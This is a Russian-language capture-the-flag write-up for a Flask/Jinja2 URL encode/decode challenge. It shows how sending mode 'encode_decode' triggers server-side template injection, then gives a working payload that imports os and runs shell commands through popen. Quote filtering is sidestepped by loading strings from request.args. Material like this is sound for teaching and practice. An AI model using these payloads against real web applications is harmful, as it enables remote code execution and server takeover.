







попадаем на страницу где можно сделать url-decode/encode



согласно заданию где то тут есть RCE, а само название намекает на SSTI (temple и template-injection)

в этой таске нам даже дали сурсы, давайте их посмотрим.

из интересного

вполне защищенный рендер страницы и экраннированные объекты на самой странице
```
<textarea id="input_text" name="input_text" rows="4" required>{{ input_text or "" }}</textarea>
<div class="mode-select">
        <label>
          <input type="radio" name="mode" value="encode" checked>
          Закодировать
        </label>
        <label>
          <input type="radio" name="mode" value="decode" checked>
          Декодировать
        </label>
      </div>
<textarea readonly rows="4">{{ output_text }}</textarea>
```

пока что ничего не видно а инъекции не срабатывают



единственное что можно заметить это логика сравнений:
```
if "encode" in mode:
    чо то            
if "decode" in mode:
    чо то
```
проверяется она очень странно через in , и единственное что приходит в голову попробовать исполнить оба условия одноверменно, то есть отправить запрос с mode="encode_decode"

открываем BurpSuite и отправляем соответствующий запрос с:
```
input_text={{7*7}}&mode=encode_decode
```
и в ответе получаем:



то есть инъекцию пробило в input_text , что довольно странно, но самое главное - она работает. давайте попробуем вставить стандартный шаблон:
```
{{config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("ls").read()}} 
```
но сервер отвечает ошибкой

если экспериментировать с шаблонами, то станет известно что при любом наличии ' или " в шаблоне, сервер дает ошибку, и тогда нужно искать новый способ загрузить строки. 

### вот он:

допустим у нас есть запрос. в шаблонном движке на котором работает сервер, мы может получить его объект через `{{request}}`, а если у него еще и есть какие то параметры то узнать их через `request.args`,  допустим если отправить запрос с параметрами site.com/?m=abc
и попытаться вывести `request.args.m`, то получим ответ:



то есть мы можем загружать строки таким образом! и все что нам остается сделать 2 параметра:
- 1й для подгрузки библиотеки os : `/?os=os`
- и 2й для внедрения команды: `/?cmd={команда}`

давайте составим такой payload:
`{{config.__class__.from_envvar.__globals__.__builtins__.__import__(request.args.os).popen(request.args.cmd).read()}}` где request.args.os - параметр /?os=os и request.args.cmd - /?cmd=команда

и отправим запрос с параметрами /?cmd=ls&os=os



и получаем RCE. все что осталось сделать это исследовать систему, найти get_flag.sh в /home и получить флаг :)
